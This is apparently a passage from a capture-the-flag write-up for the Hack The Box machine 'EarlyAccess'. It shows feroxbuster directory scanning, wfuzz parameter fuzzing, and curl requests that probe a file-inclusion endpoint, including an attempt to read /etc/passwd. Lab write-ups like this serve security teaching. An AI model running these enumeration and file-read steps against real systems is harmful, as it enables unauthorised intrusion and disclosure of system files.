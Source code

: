 ```sh
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [php]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
302        0l        0w        0c http://dev.earlyaccess.htb/actions/logout.php
302        0l        0w        0c http://dev.earlyaccess.htb/actions/login.php
500        1l        3w       35c http://dev.earlyaccess.htb/actions/file.php
302        0l        0w        0c http://dev.earlyaccess.htb/actions/hash.php
[####################] - 30s    59998/59998   0s      found:4       errors:0      
```

## Fuzzing Parameters

Fuzzing found a parameter:

```sh
┌──(root💀kali)-[/usr/share/seclists]
└─# wfuzz --hw 3 -w Discovery/Web-Content/raft-large-words-lowercase.txt http://dev.earlyaccess.htb/actions/file.php?FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
Target: http://dev.earlyaccess.htb/actions/file.php?FUZZ
Total requests: 50
=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000050:   500        0 L      2 W        32 Ch       "filepath"
```

## Data Exfiltration

Try to get to a known file:

```sh
┌──(root💀kali)-[~/htb/earlyaccess]
└─# curl http://dev.earlyaccess.htb/actions/file.php?filepath=/etc/passwd
<h1>ERROR:</h1>For security reasons, reading outside the current directory is prohibited!
```

Try to read file.php:

```sh
┌──(root💀kali)-[~/htb/earlyaccess]
└─# curl http://dev.earlyaccess.htb/actions/file.php?filepath=file.php   
<h2>Executing file:</h2><p>file.php</p><br><h2>Executed file successfully!
```

Try to read hash.php:

```sh
┌──(root💀kali)-[~/htb/earlyaccess]
└─# curl http://dev.earlyaccess.htb/actions/file.php?filepath=hash.php
<h2>Executing file:</h2><p>hash.php</p><br><br />
<b>Warning</b>:  Cannot modify header information - headers already sent by (output started at /var/www/earlyaccess.htb/dev/actions/file.php:18) in <b>/var/www/earlyaccess.htb/dev/actions/hash.php</b> on line <b>77</b><br /><h2>Executed file successfully!
```

